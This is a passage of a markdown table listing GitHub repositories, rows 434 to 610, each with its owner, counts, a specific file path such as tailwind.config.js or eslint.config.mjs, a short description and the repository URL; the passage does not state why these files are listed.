| 434 | Salman1205/MailAssists-CRM | Salman1205 | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/Salman1205/MailAssists-CRM |
| 435 | SouravDn-p/Innovative-task-sd246 | SouravDn-p | User | 0 | 0 | 1 | postcss.config.mjs | A taskEarn website | https://github.com/SouravDn-p/Innovative-task-sd246 |
| 436 | mahadi-zulfiker/PH-Job-Task-Web-Instructor | mahadi-zulfiker | User | 0 | 0 | 1 | postcss.config.mjs | Live website | https://github.com/mahadi-zulfiker/PH-Job-Task-Web-Instructor |
| 437 | mahadi-zulfiker/Raintor-Job-Task | mahadi-zulfiker | User | 0 | 0 | 1 | postcss.config.mjs | Live website | https://github.com/mahadi-zulfiker/Raintor-Job-Task |
| 438 | mahadi-zulfiker/SparkTech-Job-Task | mahadi-zulfiker | User | 0 | 0 | 1 | postcss.config.mjs | Live Site | https://github.com/mahadi-zulfiker/SparkTech-Job-Task |
| 439 | seemab-ahmed/oradentclinic-website | seemab-ahmed | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/seemab-ahmed/oradentclinic-website |
| 440 | AhmadRazaKhokhar1/url-shortner-frontend | AhmadRazaKhokhar1 | User | 0 | 0 | 1 | postcss.config.mjs |  | https://github.com/AhmadRazaKhokhar1/url-shortner-frontend |
| 441 | nipun-imesh/Fly-connects-web-FN | nipun-imesh | User | 0 | 0 | 1 | tailwind.config.js |  | https://github.com/nipun-imesh/Fly-connects-web-FN |
| 442 | Barosz30/Portfolio | Barosz30 | User | 0 | 0 | 1 | tailwind.config.js |  | https://github.com/Barosz30/Portfolio |
| 443 | web-ghoul/movie-app | web-ghoul | User | 0 | 0 | 1 | tailwind.config.js |  | https://github.com/web-ghoul/movie-app |
| 444 | Dawit212119/DMS | Dawit212119 | User | 0 | 0 | 1 | client/tailwind.config.js | Nextjs,express,prisma | https://github.com/Dawit212119/DMS |
| 445 | Al-amin07/project_4_frontend | Al-amin07 | User | 0 | 0 | 1 | tailwind.config.js |  | https://github.com/Al-amin07/project_4_frontend |
| 446 | zeeshanrafiqrana/metropolis-arena-frontend | zeeshanrafiqrana | User | 0 | 0 | 1 | tailwind.config.js | Metropolis Arena Interactive Event Seating Map — Front-End Take-Home Task | https://github.com/zeeshanrafiqrana/metropolis-arena-frontend |
| 447 | Wasee-Ur-Rehman/DarziXpress | Wasee-Ur-Rehman | User | 0 | 0 | 1 | client/tailwind.config.js | Online Tailor & Clothing Alteration Service | https://github.com/Wasee-Ur-Rehman/DarziXpress |
| 448 | Flitzinteractive/FlitzSpace | Flitzinteractive | User | 0 | 0 | 1 | client/tailwind.config.js |  | https://github.com/Flitzinteractive/FlitzSpace |
| 449 | addygeek/Walmart-Inventory-Clearance-Optimizer | addygeek | User | 0 | 0 | 1 | frontend/tailwind.config.js | Smart inventory and expiry management dashboard for retail stores like Walmart — detect, track, and optimize clearance items with urgency scoring and role-based access. | https://github.com/addygeek/Walmart-Inventory-Clearance-Optimizer |
| 450 | Iambilalfaisal/Portfolio | Iambilalfaisal | User | 0 | 0 | 1 | tailwind.config.js | My portfolio | https://github.com/Iambilalfaisal/Portfolio |
| 451 | malikjunaidhassann/updated-calcos-frontend | malikjunaidhassann | User | 0 | 0 | 1 | tailwind.config.js |  | https://github.com/malikjunaidhassann/updated-calcos-frontend |
| 452 | SimalChaudhari/plusfive | SimalChaudhari | User | 0 | 0 | 1 | tailwind.config.js | plusfive | https://github.com/SimalChaudhari/plusfive |
| 453 | Hassam-01/Forsit-task | Hassam-01 | User | 0 | 0 | 1 | tailwind.config.js |  | https://github.com/Hassam-01/Forsit-task |
| 454 | shahvezjumani/chat_app | shahvezjumani | User | 0 | 0 | 1 | tailwind.config.js |  | https://github.com/shahvezjumani/chat_app |
| 455 | hunain25/QuickFistAid | hunain25 | User | 0 | 0 | 1 | tailwind.config.js |  | https://github.com/hunain25/QuickFistAid |
| 456 | cyhammad/rapid-appliances-repairs | cyhammad | User | 0 | 0 | 1 | tailwind.config.js |  | https://github.com/cyhammad/rapid-appliances-repairs |
| 457 | MohamedH1000/ethaq_ecommerce_admin | MohamedH1000 | User | 0 | 0 | 1 | tailwind.config.js |  | https://github.com/MohamedH1000/ethaq_ecommerce_admin |
| 458 | acanaveras/autonomous_5g_slicing | acanaveras | User | 0 | 0 | 1 | NeMo-Agent-Toolkit-UI/tailwind.config.js | New repository for troubleshooting | https://github.com/acanaveras/autonomous_5g_slicing |
| 459 | Gethmi-Rathnayaka/Aventude | Gethmi-Rathnayaka | User | 0 | 0 | 1 | session001-fe/tailwind.config.js |  | https://github.com/Gethmi-Rathnayaka/Aventude |
| 460 | Atik203/My-Anime-Client | Atik203 | User | 0 | 0 | 1 | tailwind.config.js |  | https://github.com/Atik203/My-Anime-Client |
| 461 | lihiniapsara/Spotify-Clone | lihiniapsara | User | 0 | 0 | 1 | tailwind.config.js |  | https://github.com/lihiniapsara/Spotify-Clone |
| 462 | dhruvmalik007/small-case_preEthDelhi | dhruvmalik007 | User | 0 | 0 | 1 | apps/web/tailwind.config.js | submission for the EthGlobal Delhi hackathon  | https://github.com/dhruvmalik007/small-case_preEthDelhi |
| 463 | jbaze/Eli-rfq-system | jbaze | User | 0 | 0 | 1 | rfq-app/tailwind.config.js |  | https://github.com/jbaze/Eli-rfq-system |
| 464 | DamikaDeshan/FaceDetectionClient | DamikaDeshan | User | 0 | 0 | 1 | tailwind.config.js |  | https://github.com/DamikaDeshan/FaceDetectionClient |
| 465 | morokoli/color-chrome | morokoli | User | 0 | 0 | 1 | tailwind.config.js |  | https://github.com/morokoli/color-chrome |
| 466 | rmcsharry/me | rmcsharry | User | 0 | 0 | 1 | frontend/tailwind.config.js | My portfolio | https://github.com/rmcsharry/me |
| 467 | JudeTejada/snapdocs | JudeTejada | User | 0 | 0 | 1 | apps/frontend/tailwind.config.js |  | https://github.com/JudeTejada/snapdocs |
| 468 | mohsinyzonetechnology-dev/workFlow-management | mohsinyzonetechnology-dev | User | 0 | 0 | 1 | client/tailwind.config.js |  | https://github.com/mohsinyzonetechnology-dev/workFlow-management |
| 469 | anilgoswamistartbitsolutions/bolt-novel-merry | anilgoswamistartbitsolutions | User | 0 | 0 | 1 | tailwind.config.js |  | https://github.com/anilgoswamistartbitsolutions/bolt-novel-merry |
| 470 | spacecode-library/nurse-nest | spacecode-library | User | 0 | 0 | 1 | tailwind.config.js |  | https://github.com/spacecode-library/nurse-nest |
| 471 | jesus270/Krain-MVP-v1 | jesus270 | User | 0 | 0 | 1 | apps/landing/tailwind.config.js |  | https://github.com/jesus270/Krain-MVP-v1 |
| 472 | 01aksh/jobPilotFrontend | 01aksh | User | 0 | 0 | 1 | tailwind.config.js | ReactJS, TailwindCSS,Typescript | https://github.com/01aksh/jobPilotFrontend |
| 473 | kiranmistary0697/Stratezy_lab | kiranmistary0697 | User | 0 | 0 | 1 | tailwind.config.js |  | https://github.com/kiranmistary0697/Stratezy_lab |
| 474 | aviel9552/plusfive-frontend | aviel9552 | User | 0 | 0 | 1 | tailwind.config.js | plusfive-frontend | https://github.com/aviel9552/plusfive-frontend |
| 475 | MohamedH1000/ethaq_ecommerce | MohamedH1000 | User | 0 | 0 | 1 | tailwind.config.js |  | https://github.com/MohamedH1000/ethaq_ecommerce |
| 476 | amit-biswas-1992/joykoly-test-app | amit-biswas-1992 | User | 0 | 0 | 1 | tailwind.config.js | React Native Joykoly Academy App with Dashboard, Exams, and API Integration | https://github.com/amit-biswas-1992/joykoly-test-app |
| 477 | seemab-ahmed/eden-funded | seemab-ahmed | User | 0 | 0 | 1 | tailwind.config.js |  | https://github.com/seemab-ahmed/eden-funded |
| 478 | Professor833/orchestrix | Professor833 | User | 0 | 0 | 1 | frontend/tailwind.config.js | AI workflow Automation Platform | https://github.com/Professor833/orchestrix |
| 479 | rajkananirk/personal-finance-node | rajkananirk | User | 0 | 0 | 1 | tailwind.config.js |  | https://github.com/rajkananirk/personal-finance-node |
| 480 | Ali-Hamas/AI-Learn-Hub | Ali-Hamas | User | 0 | 0 | 1 | frontend/tailwind.config.js | Premium AI Learning Platform - AI LearnHub | https://github.com/Ali-Hamas/AI-Learn-Hub |
| 481 | gSimani/ConcordBroker | gSimani | User | 0 | 0 | 2 | apps/web/tailwind.config.js \| backups/apps_web_before_master_/tailwind.config.js | Extract CRE and  Residential information  | https://github.com/gSimani/ConcordBroker |
| 482 | syed-zaeem/fyp-frontend | syed-zaeem | User | 0 | 0 | 1 | Project Frontend/tailwind.config.js | This is the frontend for the FYP. | https://github.com/syed-zaeem/fyp-frontend |
| 483 | developerDesinger/Scrapping-Dashboard-Frontend | developerDesinger | User | 0 | 0 | 1 | tailwind.config.js | Frontend for the Scrapping Dashboard app. | https://github.com/developerDesinger/Scrapping-Dashboard-Frontend |
| 484 | jade0615/Bookme | jade0615 | User | 0 | 0 | 1 | frontend/tailwind.config.js |  | https://github.com/jade0615/Bookme |
| 485 | jbaze/prject-hejer-image-upload | jbaze | User | 0 | 0 | 1 | image-upload-feature-angular/tailwind.config.js |  | https://github.com/jbaze/prject-hejer-image-upload |
| 486 | Atik203/Quiz-Taker-Client | Atik203 | User | 0 | 0 | 1 | tailwind.config.js |  | https://github.com/Atik203/Quiz-Taker-Client |
| 487 | dhruvmalik007/smallcase_defi | dhruvmalik007 | User | 0 | 0 | 1 | apps/web/tailwind.config.js | submission for the EthGlobal Delhi hackathon project : Building thematic industry based mutual funds composed of various defi portfolios   | https://github.com/dhruvmalik007/smallcase_defi |
| 488 | Ali-Hamas/VPS-Error | Ali-Hamas | User | 0 | 0 | 1 | frontend/tailwind.config.js |  | https://github.com/Ali-Hamas/VPS-Error |
| 489 | Atik203/My-Anime-Server | Atik203 | User | 0 | 0 | 1 | eslint.config.mjs |  | https://github.com/Atik203/My-Anime-Server |
| 490 | Al-amin07/ci-cd | Al-amin07 | User | 0 | 0 | 1 | eslint.config.mjs |  | https://github.com/Al-amin07/ci-cd |
| 491 | parthvaghani/vinayaknaturals-api | parthvaghani | User | 0 | 0 | 1 | eslint.config.mjs |  | https://github.com/parthvaghani/vinayaknaturals-api |
| 492 | Success0452/NestAssessment | Success0452 | User | 0 | 0 | 1 | eslint.config.mjs |  | https://github.com/Success0452/NestAssessment |
| 493 | arif1101/AadilPay-backend | arif1101 | User | 0 | 0 | 1 | eslint.config.mjs |  | https://github.com/arif1101/AadilPay-backend |
| 494 | pratikp72/strollr-app | pratikp72 | User | 0 | 0 | 1 | eslint.config.mjs |  | https://github.com/pratikp72/strollr-app |
| 495 | anilgoswamistartbitsolutions/firebasebase-auth-and-store | anilgoswamistartbitsolutions | User | 0 | 0 | 1 | eslint.config.mjs |  | https://github.com/anilgoswamistartbitsolutions/firebasebase-auth-and-store |
| 496 | Logixbuilttech/payload_posts | Logixbuilttech | User | 0 | 0 | 1 | eslint.config.mjs |  | https://github.com/Logixbuilttech/payload_posts |
| 497 | JudeTejada/Fragments | JudeTejada | User | 0 | 0 | 1 | eslint.config.mjs |  | https://github.com/JudeTejada/Fragments |
| 498 | mohsulthana/aurora-reminder-app | mohsulthana | User | 0 | 0 | 1 | eslint.config.mjs | subscription reminder | https://github.com/mohsulthana/aurora-reminder-app |
| 499 | pt67/test | pt67 | User | 0 | 0 | 1 | frontend/eslint.config.mjs |  | https://github.com/pt67/test |
| 500 | Mohsin-Javed48/UDEMY-Backend-Practice-projects | Mohsin-Javed48 | User | 0 | 0 | 2 | Section-7-MVC/00-starting-setup/eslint.config.mjs \| Section-5-Express/eslint.config.mjs |  | https://github.com/Mohsin-Javed48/UDEMY-Backend-Practice-projects |
| 501 | Al-amin07/project_5_backend | Al-amin07 | User | 0 | 0 | 1 | eslint.config.mjs |  | https://github.com/Al-amin07/project_5_backend |
| 502 | Al-amin07/backend_danyel_new | Al-amin07 | User | 0 | 0 | 1 | eslint.config.mjs |  | https://github.com/Al-amin07/backend_danyel_new |
| 503 | SouravDn-p/NestJs-Backend-Practice | SouravDn-p | User | 0 | 0 | 1 | eslint.config.mjs |  | https://github.com/SouravDn-p/NestJs-Backend-Practice |
| 504 | seemab-ahmed/cutzclub-next | seemab-ahmed | User | 0 | 0 | 1 | eslint.config.mjs |  | https://github.com/seemab-ahmed/cutzclub-next |
| 505 | QaisarWaheed/service-connect-nest-be | QaisarWaheed | User | 0 | 0 | 1 | eslint.config.mjs |  | https://github.com/QaisarWaheed/service-connect-nest-be |
| 506 | SouravDn-p/NestJs-Template | SouravDn-p | User | 0 | 0 | 1 | eslint.config.mjs | A Nest Js backend server with latest features | https://github.com/SouravDn-p/NestJs-Template |
| 507 | Muhammad-Achir/nestjs-real-time-chat | Muhammad-Achir | User | 0 | 0 | 1 | eslint.config.mjs |  | https://github.com/Muhammad-Achir/nestjs-real-time-chat |
| 508 | arif1101/nextNest | arif1101 | User | 0 | 0 | 1 | eslint.config.mjs |  | https://github.com/arif1101/nextNest |
| 509 | mirzaghalib4726/event_management_backend | mirzaghalib4726 | User | 0 | 0 | 1 | eslint.config.mjs |  | https://github.com/mirzaghalib4726/event_management_backend |
| 510 | Arman8957/zenith-be | Arman8957 | User | 0 | 0 | 1 | eslint.config.mjs |  | https://github.com/Arman8957/zenith-be |
| 511 | dev-muneeb-1520/nest-js-quiz-manager | dev-muneeb-1520 | User | 0 | 0 | 1 | server/eslint.config.mjs |  | https://github.com/dev-muneeb-1520/nest-js-quiz-manager |
| 512 | 213020aumc/nestjs-basics | 213020aumc | User | 0 | 0 | 1 | eslint.config.mjs | Starter repository for practicing NestJS fundamentals including project setup, routing, and API building. | https://github.com/213020aumc/nestjs-basics |
| 513 | gmhridu/bicycle-assignment-ph | gmhridu | User | 0 | 0 | 1 | eslint.config.mjs |  | https://github.com/gmhridu/bicycle-assignment-ph |
| 514 | Anas-Ali-3673/CAA | Anas-Ali-3673 | User | 0 | 0 | 1 | eslint.config.mjs |  | https://github.com/Anas-Ali-3673/CAA |
| 515 | noors-code/swarrpay-backend | noors-code | User | 0 | 0 | 1 | eslint.config.mjs |  | https://github.com/noors-code/swarrpay-backend |
| 516 | mahadi-zulfiker/aura-commerce-backend | mahadi-zulfiker | User | 0 | 0 | 1 | eslint.config.mjs | A comprehensive NestJS backend API for the Aura Commerce e-commerce platform, featuring multi-vendor support, complete order management, payment processing with Stripe, and advanced analytics. | https://github.com/mahadi-zulfiker/aura-commerce-backend |
| 517 | Arman8957/husss-be | Arman8957 | User | 0 | 0 | 1 | eslint.config.mjs |  | https://github.com/Arman8957/husss-be |
| 518 | Abd-elrahmann/profit-backend | Abd-elrahmann | User | 0 | 0 | 1 | eslint.config.mjs |  | https://github.com/Abd-elrahmann/profit-backend |
| 519 | nasirrasheed/Deadlive | nasirrasheed | User | 0 | 0 | 1 | eslint.config.mjs |  | https://github.com/nasirrasheed/Deadlive |
| 520 | idrishci/DreamJob | idrishci | User | 0 | 0 | 1 | src/app/eslint.config.mjs |  | https://github.com/idrishci/DreamJob |
| 521 | arif1101/TripSphere-server | arif1101 | User | 0 | 0 | 1 | eslint.config.mjs |  | https://github.com/arif1101/TripSphere-server |
| 522 | mahadi-zulfiker/Backend-Tour-Management-System | mahadi-zulfiker | User | 0 | 0 | 1 | eslint.config.mjs |  | https://github.com/mahadi-zulfiker/Backend-Tour-Management-System |
| 523 | arjunkhetia/NestJS-PostgreSQL-Project | arjunkhetia | User | 0 | 0 | 1 | eslint.config.mjs | NestJS + PostgreSQL - Template | https://github.com/arjunkhetia/NestJS-PostgreSQL-Project |
| 524 | Al-amin07/backend_template | Al-amin07 | User | 0 | 0 | 1 | eslint.config.mjs |  | https://github.com/Al-amin07/backend_template |
| 525 | RazaAkmal/telehealth-assignment | RazaAkmal | User | 0 | 0 | 1 | eslint.config.mjs |  | https://github.com/RazaAkmal/telehealth-assignment |
| 526 | dev-muneeb-1520/restraunt-management-app-backend | dev-muneeb-1520 | User | 0 | 0 | 1 | eslint.config.mjs | Scalable backend for a Restaurant Management App built with NestJS, Prisma, and PostgreSQL. Supports authentication, menu, orders, tables, and role-based access. | https://github.com/dev-muneeb-1520/restraunt-management-app-backend |
| 527 | Al-amin07/nest-template | Al-amin07 | User | 0 | 0 | 1 | eslint.config.mjs |  | https://github.com/Al-amin07/nest-template |
| 528 | Al-amin07/purple-cat-server | Al-amin07 | User | 0 | 0 | 1 | eslint.config.mjs |  | https://github.com/Al-amin07/purple-cat-server |
| 529 | QaisarWaheed/aluminium-backend | QaisarWaheed | User | 0 | 0 | 1 | eslint.config.mjs |  | https://github.com/QaisarWaheed/aluminium-backend |
| 530 | QaisarWaheed/chemtronics-backend | QaisarWaheed | User | 0 | 0 | 1 | eslint.config.mjs |  | https://github.com/QaisarWaheed/chemtronics-backend |
| 531 | SouravDn-p/chatApp-backend | SouravDn-p | User | 0 | 0 | 1 | eslint.config.mjs |  | https://github.com/SouravDn-p/chatApp-backend |
| 532 | mirzaghalib4726/committee-backend | mirzaghalib4726 | User | 0 | 0 | 1 | eslint.config.mjs |  | https://github.com/mirzaghalib4726/committee-backend |
| 533 | arjunkhetia/NestJS-MongoDB-Project | arjunkhetia | User | 0 | 0 | 1 | eslint.config.mjs | NestJS + MongoDB - Template | https://github.com/arjunkhetia/NestJS-MongoDB-Project |
| 534 | arjunkhetia/NestJS-Swagger-Project | arjunkhetia | User | 0 | 0 | 1 | eslint.config.mjs | NestJS + Swagger - Template | https://github.com/arjunkhetia/NestJS-Swagger-Project |
| 535 | arjunkhetia/NestJS-Enterprise-Project | arjunkhetia | User | 0 | 0 | 1 | eslint.config.mjs | NestJS Enterprise Server - Template | https://github.com/arjunkhetia/NestJS-Enterprise-Project |
| 536 | Al-amin07/carstore_backend | Al-amin07 | User | 0 | 0 | 1 | eslint.config.mjs |  | https://github.com/Al-amin07/carstore_backend |
| 537 | Al-amin07/bigso_backend | Al-amin07 | User | 0 | 0 | 1 | eslint.config.mjs |  | https://github.com/Al-amin07/bigso_backend |
| 538 | Al-amin07/file_sure_backend | Al-amin07 | User | 0 | 0 | 1 | eslint.config.mjs |  | https://github.com/Al-amin07/file_sure_backend |
| 539 | Anees201173/MoreApp_Backend | Anees201173 | User | 0 | 0 | 1 | src/app.js |  | https://github.com/Anees201173/MoreApp_Backend |
| 540 | jbaze/defi-task | jbaze | User | 0 | 0 | 1 | src/App.js |  | https://github.com/jbaze/defi-task |
| 541 | SalotJay/creator-platform-worker | SalotJay | User | 0 | 0 | 1 | src/app.js |  | https://github.com/SalotJay/creator-platform-worker |
| 542 | KolaganiReeha/ksense-healthcare-assessment | KolaganiReeha | User | 0 | 0 | 1 | src/App.js |  | https://github.com/KolaganiReeha/ksense-healthcare-assessment |
| 543 | pt67/prakash360 | pt67 | User | 0 | 0 | 1 | src/App.js |  | https://github.com/pt67/prakash360 |
| 544 | Mansuro/Garden-waste | Mansuro | User | 0 | 0 | 1 | src/App.js |  | https://github.com/Mansuro/Garden-waste |
| 545 | tactionsoft/app-cost-frontend | tactionsoft | User | 0 | 0 | 1 | src/App.js |  | https://github.com/tactionsoft/app-cost-frontend |
| 546 | Reactongraph/digital-signature-pad | Reactongraph | User | 0 | 0 | 1 | src/App.js |  | https://github.com/Reactongraph/digital-signature-pad |
| 547 | mahi-abeysinghe/SkillSync | mahi-abeysinghe | User | 0 | 0 | 1 | Frontend/src/App.js |  | https://github.com/mahi-abeysinghe/SkillSync |
| 548 | pasindu7828/Sustainable-Marketting-Wastage-Management-System | pasindu7828 | User | 0 | 0 | 1 | frontend/src/App.js |  | https://github.com/pasindu7828/Sustainable-Marketting-Wastage-Management-System |
| 549 | KolaganiReeha/weatherApp | KolaganiReeha | User | 0 | 0 | 1 | src/App.js | A responsive weather application built with React, OpenWeatherMap API, axios, and Bootstrap. | https://github.com/KolaganiReeha/weatherApp |
| 550 | KolaganiReeha/quickCart | KolaganiReeha | User | 0 | 0 | 1 | src/App.js | A Shopping App | https://github.com/KolaganiReeha/quickCart |
| 551 | servise-east/service-east-v2 | servise-east | User | 0 | 0 | 1 | next.config.mjs |  | https://github.com/servise-east/service-east-v2 |
| 552 | UsmanKhan172014/stock-market-tickers | UsmanKhan172014 | User | 0 | 0 | 1 | next.config.mjs | Stock Market Tickers list in JSON | https://github.com/UsmanKhan172014/stock-market-tickers |
| 553 | Prakhar6046/Feedflow-New | Prakhar6046 | User | 0 | 0 | 1 | next.config.mjs |  | https://github.com/Prakhar6046/Feedflow-New |
| 554 | AronWebSolutionPVTLTD/cycle-races-frontend | AronWebSolutionPVTLTD | User | 0 | 0 | 1 | next.config.mjs |  | https://github.com/AronWebSolutionPVTLTD/cycle-races-frontend |
| 555 | noors-code/MovieHouse-api | noors-code | User | 0 | 0 | 1 | next.config.mjs |  | https://github.com/noors-code/MovieHouse-api |
| 556 | durlav-bose/sdi-lead-discovery | durlav-bose | User | 0 | 0 | 1 | next.config.mjs |  | https://github.com/durlav-bose/sdi-lead-discovery |
| 557 | dev1scaleupally/july-nextjs-fastify-task | dev1scaleupally | User | 0 | 0 | 2 | frontend/next.config.mjs \| backend/src/routes/index.js |  | https://github.com/dev1scaleupally/july-nextjs-fastify-task |
| 558 | wolfstudiosai/frontend_wolfstudios | wolfstudiosai | User | 0 | 0 | 1 | next.config.mjs | https://wolf-studios-frontend.vercel.app/ | https://github.com/wolfstudiosai/frontend_wolfstudios |
| 559 | AmazingAsim/nextdeals | AmazingAsim | User | 0 | 0 | 1 | next.config.mjs |  | https://github.com/AmazingAsim/nextdeals |
| 560 | Button-20/perfume-showcase | Button-20 | User | 0 | 0 | 1 | next.config.mjs |  | https://github.com/Button-20/perfume-showcase |
| 561 | noors-code/MovieHouse | noors-code | User | 0 | 0 | 1 | next.config.mjs |  | https://github.com/noors-code/MovieHouse |
| 562 | splinxplanet/splinx-planet-backend | splinxplanet | User | 0 | 0 | 1 | index.js | Backend app for splinx-planent mobile apps. Build with Node.js, Express, MongoDB, JWT,  and 💖💖 | https://github.com/splinxplanet/splinx-planet-backend |
| 563 | SouravDn-p/rex-auction-server-side | SouravDn-p | User | 0 | 0 | 1 | index.js |  | https://github.com/SouravDn-p/rex-auction-server-side |
| 564 | AmazingAsim/kabutar | AmazingAsim | User | 0 | 0 | 1 | index.js |  | https://github.com/AmazingAsim/kabutar |
| 565 | SumaiyaNishat/ticket-booking-platform-server | SumaiyaNishat | User | 0 | 0 | 1 | index.js |  | https://github.com/SumaiyaNishat/ticket-booking-platform-server |
| 566 | Abd-elrahmann/inestors-backend | Abd-elrahmann | User | 0 | 0 | 1 | server.js |  | https://github.com/Abd-elrahmann/inestors-backend |
| 567 | Abdalla1990/generate-questions | Abdalla1990 | User | 0 | 0 | 1 | generate-questions/question-generation/config.js |  | https://github.com/Abdalla1990/generate-questions |
| 568 | AbdulwahidHusein/portfolio-1 | AbdulwahidHusein | User | 0 | 0 | 1 | astro.config.mjs |  | https://github.com/AbdulwahidHusein/portfolio-1 |
| 569 | AKDebug-UX/whatsapp-bot-master | AKDebug-UX | User | 0 | 0 | 1 | config.js |  | https://github.com/AKDebug-UX/whatsapp-bot-master |
| 570 | amMubbasher/shop.ceenami.com | amMubbasher | User | 0 | 0 | 1 | server/routes/userRoutes.js |  | https://github.com/amMubbasher/shop.ceenami.com |
| 571 | Anthem-InfoTech-Pvt-Ltd/raffily-business-cron | Anthem-InfoTech-Pvt-Ltd | Organization | 0 | 0 | 1 | emailTemplates/raffle-results.js |  | https://github.com/Anthem-InfoTech-Pvt-Ltd/raffily-business-cron |
| 572 | AronWebSolutionPVTLTD/cycle-races-admin | AronWebSolutionPVTLTD | User | 0 | 0 | 1 | vite.config.mjs |  | https://github.com/AronWebSolutionPVTLTD/cycle-races-admin |
| 573 | aviel9552/plusfive-backend | aviel9552 | User | 0 | 0 | 1 | server.js |  | https://github.com/aviel9552/plusfive-backend |
| 574 | bhavik-dreamz/Pdf-search-based-on-ai-backend | bhavik-dreamz | User | 0 | 0 | 1 | routes/chatRoutes.js |  | https://github.com/bhavik-dreamz/Pdf-search-based-on-ai-backend |
| 575 | BhavikPatel-dreamz/br-dj | BhavikPatel-dreamz | Organization | 0 | 0 | 1 | vite.config.js |  | https://github.com/BhavikPatel-dreamz/br-dj |
| 576 | chetanji028/tradingview2 | chetanji028 | User | 0 | 0 | 1 | server/routes/api/users.js |  | https://github.com/chetanji028/tradingview2 |
| 577 | codecrafter201/Kapacia_AI_Backend | codecrafter201 | User | 0 | 0 | 1 | routes/api.js |  | https://github.com/codecrafter201/Kapacia_AI_Backend |
| 578 | CODECUBE-001/frontend | CODECUBE-001 | Organization | 0 | 0 | 1 | astro.config.mjs |  | https://github.com/CODECUBE-001/frontend |
| 579 | CODECUBE-001/liteweb-landing | CODECUBE-001 | Organization | 0 | 0 | 1 | tailwind.config.cjs |  | https://github.com/CODECUBE-001/liteweb-landing |
| 580 | davidOnaolapo/Smartville | davidOnaolapo | User | 0 | 0 | 1 | node-API/server.js |  | https://github.com/davidOnaolapo/Smartville |
| 581 | developerDesinger/robo-play | developerDesinger | User | 0 | 0 | 1 | routes/aiResumeTailor.route.js |  | https://github.com/developerDesinger/robo-play |
| 582 | developerDesinger/Transporter-backend | developerDesinger | User | 0 | 0 | 1 | src/api/v1/routes/adjustments.js |  | https://github.com/developerDesinger/Transporter-backend |
| 583 | DilyaSoft/Time-off-company-manager | DilyaSoft | User | 0 | 0 | 1 | TimeOffManager/ClientApp/timeoff-manager-client/.eslintrc.cjs |  | https://github.com/DilyaSoft/Time-off-company-manager |
| 584 | FabrikCreations/fabrik-lightbox | FabrikCreations | User | 0 | 0 | 1 | Gruntfile.js |  | https://github.com/FabrikCreations/fabrik-lightbox |
| 585 | finom/opensource.gubanov.eu | finom | User | 0 | 0 | 1 | webpack.config.js |  | https://github.com/finom/opensource.gubanov.eu |
| 586 | FSDTeam-SAA/rayb_23-backend | FSDTeam-SAA | Organization | 0 | 0 | 1 | src/modules/business/business.router.js |  | https://github.com/FSDTeam-SAA/rayb_23-backend |
| 587 | Gowreesh-VT/Gowreesh-VT.github.io | Gowreesh-VT | User | 0 | 0 | 1 | js/breadcrumb-schema.js |  | https://github.com/Gowreesh-VT/Gowreesh-VT.github.io |
| 588 | himanshu077/material-card-ui-test | himanshu077 | User | 0 | 0 | 1 | postcss.config.cjs |  | https://github.com/himanshu077/material-card-ui-test |
| 589 | Ianwarzai/cotd_cronjob | Ianwarzai | User | 0 | 0 | 1 | services/stockDataService.js |  | https://github.com/Ianwarzai/cotd_cronjob |
| 590 | jamesmaccoy/betaplek | jamesmaccoy | User | 0 | 0 | 1 | tailwind.config.mjs |  | https://github.com/jamesmaccoy/betaplek |
| 591 | JudeTejada/jude-portfolio-v3 | JudeTejada | User | 0 | 0 | 1 | astro.config.mjs |  | https://github.com/JudeTejada/jude-portfolio-v3 |
| 592 | JudeTejada/Quick-Links | JudeTejada | User | 0 | 0 | 1 | eslint.config.js |  | https://github.com/JudeTejada/Quick-Links |
| 593 | KeniKT/machinery_management_system | KeniKT | User | 0 | 0 | 1 | db.js |  | https://github.com/KeniKT/machinery_management_system |
| 594 | KeshanWijesinghe/yap-mobile-app | KeshanWijesinghe | User | 0 | 0 | 1 | backend/src/routes/authRoutes.js |  | https://github.com/KeshanWijesinghe/yap-mobile-app |
| 595 | Kvit-Dm/RammSound | Kvit-Dm | User | 0 | 0 | 1 | webpack.config.js |  | https://github.com/Kvit-Dm/RammSound |
| 596 | mab3321/Event-Seating-API---Backend | mab3321 | User | 0 | 0 | 1 | src/server.ts |  | https://github.com/mab3321/Event-Seating-API---Backend |
| 597 | mahadi-zulfiker/Ride-Management-Backend | mahadi-zulfiker | User | 0 | 0 | 1 | src/index.ts |  | https://github.com/mahadi-zulfiker/Ride-Management-Backend |
| 598 | Maham-Liaqat/Player-Assests-Tracker | Maham-Liaqat | User | 0 | 0 | 1 | Player-Tracker-Backend/routes/assists.js |  | https://github.com/Maham-Liaqat/Player-Assests-Tracker |
| 599 | Mediasoft-Cie-S-A/formeditor.ms | Mediasoft-Cie-S-A | Organization | 0 | 0 | 1 | appconfig.js |  | https://github.com/Mediasoft-Cie-S-A/formeditor.ms |
| 600 | MianHaziq/LKnight-Lms-backend | MianHaziq | User | 0 | 0 | 1 | src/routes/admin.routes.js |  | https://github.com/MianHaziq/LKnight-Lms-backend |
| 601 | nhumayun2/Study-Hall-Project | nhumayun2 | User | 0 | 0 | 1 | mainroute/route.config.js |  | https://github.com/nhumayun2/Study-Hall-Project |
| 602 | Prakhar6046/json | Prakhar6046 | User | 0 | 0 | 1 | tailwind.config.mjs |  | https://github.com/Prakhar6046/json |
| 603 | Prakhar6046/testing | Prakhar6046 | User | 0 | 0 | 1 | tailwind.config.mjs |  | https://github.com/Prakhar6046/testing |
| 604 | Prakhar6046/ubk-development-official-website-export | Prakhar6046 | User | 0 | 0 | 1 | tailwind.config.mjs |  | https://github.com/Prakhar6046/ubk-development-official-website-export |
| 605 | Prakhar6046/website | Prakhar6046 | User | 0 | 0 | 1 | tailwind.config.mjs |  | https://github.com/Prakhar6046/website |
| 606 | PratikRaval123/DemoTask | PratikRaval123 | User | 0 | 0 | 1 | tailwind.config.cjs |  | https://github.com/PratikRaval123/DemoTask |
| 607 | Rachit2323/agave | Rachit2323 | User | 0 | 0 | 1 | token/clients/js/.eslintrc.cjs |  | https://github.com/Rachit2323/agave |
| 608 | RahulWavhale/Amazon_Clone-Flutter | RahulWavhale | User | 0 | 0 | 1 | server/route/auth.js |  | https://github.com/RahulWavhale/Amazon_Clone-Flutter |
| 609 | rajat22999/noa-feed | rajat22999 | User | 0 | 0 | 1 | astro.config.mjs |  | https://github.com/rajat22999/noa-feed |
| 610 | RanaRehman7676/my-electron-app2 | RanaRehman7676 | User | 0 | 0 | 1 | db.js |  | https://github.com/RanaRehman7676/my-electron-app2 |
